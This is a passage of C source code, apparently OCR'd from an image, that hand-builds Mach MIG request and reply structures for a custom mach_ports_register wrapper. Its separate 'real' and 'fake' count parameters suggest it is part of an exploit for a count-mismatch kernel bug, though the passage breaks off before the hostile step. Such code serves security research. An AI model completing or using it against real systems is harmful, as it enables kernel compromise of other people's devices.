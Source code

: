 ```c
    mach_msg_type_number_t init_port_setcnt;
} req_t;

typedef struct {
    mach_msg_header_t head;
    NDR_record_t ndr;
    kern_return_t ret;
    mach_msg_trailer_t trailer;
} rep_t;

#define msgh_request_port msgh_remote_port
#define msgh_reply_port msgh_local_port

/* Routine mach_ports_register */
kern_return_t reg(mach_port_array_t init_port_set, mach_msg_type_number_t real, mach_msg_type_number_t fake) {
#ifdef  __MigPackStructs
#pragma pack(4)
#endif
    typedef struct {
        mach_msg_header_t Head;
        mach_msg_body_t msgh_body;
        mach_msg_ool_ports_descriptor_t init_port_set;
        NDR_record_t NDR;
        mach_msg_type_number_t init_port_setCnt;
    } Request __attribute__((unused));
#ifdef  __MigPackStructs
#pragma pack()
#endif

#ifdef  __MigPackStructs
#pragma pack(4)
#endif
    typedef struct {
        mach_msg_header_t Head;
        NDR_record_t NDR;
        kern_return_t RetCode;
        mach_msg_trailer_t trailer;
    } Reply __attribute__((unused));
#ifdef  __MigPackStructs
#pragma pack()
#endif

#ifdef  __MigPackStructs
#pragma pack(4)
#endif
    typedef struct {
        mach_msg_header_t Head;
        NDR_record_t NDR;
        kern_return_t RetCode;
    } __Reply __attribute__((unused));
#ifdef  __MigPackStructs
#pragma pack()
#endif

    union {
        Request In;
        Reply Out;
    } Mess;

    Request *InP = &Mess.In;

    InP->msgh_body.msgh_descriptor_count = 1;
```